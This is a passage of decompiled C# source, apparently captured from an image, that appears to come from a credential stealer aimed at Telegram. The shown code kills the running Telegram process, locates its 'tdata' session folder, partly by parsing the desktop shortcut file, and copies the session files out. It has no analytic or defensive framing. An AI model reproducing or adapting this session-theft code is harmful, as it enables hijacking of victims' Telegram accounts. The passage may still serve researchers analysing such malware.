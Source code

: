 ```csharp
							}
							File.Copy(text7, text6 + "\\" + Path.GetFileName(text7));
						}
					}
				}
			}
			catch (Exception ex)
			{
				Variables.telegramSessionFound = "ERR: " + ex.Message;
			}
		}

		// Token: 0x0600000E RID: 14 RVA: 0x00002A58 File Offset: 0x00000C58
		private static void TelegramProcessKill(ref string pathToTelegram)
		{
			Process[] processesByName = Process.GetProcessesByName("Telegram");
			bool flag = processesByName.Length != 0;
			if (flag)
			{
				bool flag2 = pathToTelegram == "Not Found!";
				if (flag2)
				{
					pathToTelegram = processesByName[0].MainModule.FileName;
					string text = pathToTelegram.Remove(pathToTelegram.Length - 13, 13);
					pathToTelegram = text + "\\tdata";
				}
				processesByName[0].Kill();
				processesByName[0].WaitForExit();
			}
		}

		// Token: 0x0600000F RID: 15 RVA: 0x00002AD0 File Offset: 0x00000CD0
		private static string GetPathByLnk()
		{
			string text2;
			try
			{
				string text = Variables.desktop + "\\Telegram.lnk";
				FileInfo fileInfo = new FileInfo(text);
				using (FileStream fileStream = File.Open(fileInfo.FullName, FileMode.Open, FileAccess.Read))
				{
					using (BinaryReader binaryReader = new BinaryReader(fileStream))
					{
						fileStream.Seek(20L, SeekOrigin.Begin);
						uint num = binaryReader.ReadUInt32();
						bool flag = (num & 1U) == 1U;
						if (flag)
						{
							fileStream.Seek(76L, SeekOrigin.Begin);
							ushort num2 = binaryReader.ReadUInt16();
							fileStream.Seek((long)((ulong)num2), SeekOrigin.Current);
						}
						long position = fileStream.Position;
						uint num3 = binaryReader.ReadUInt32();
						fileStream.Seek(12L, SeekOrigin.Current);
						uint num4 = binaryReader.ReadUInt32();
						fileStream.Seek(position + (long)((ulong)num4), SeekOrigin.Begin);
						text2 = new string(binaryReader.ReadChars((int)(position + (long)((ulong)num3) - fileStream.Position)));
					}
				}
			}
```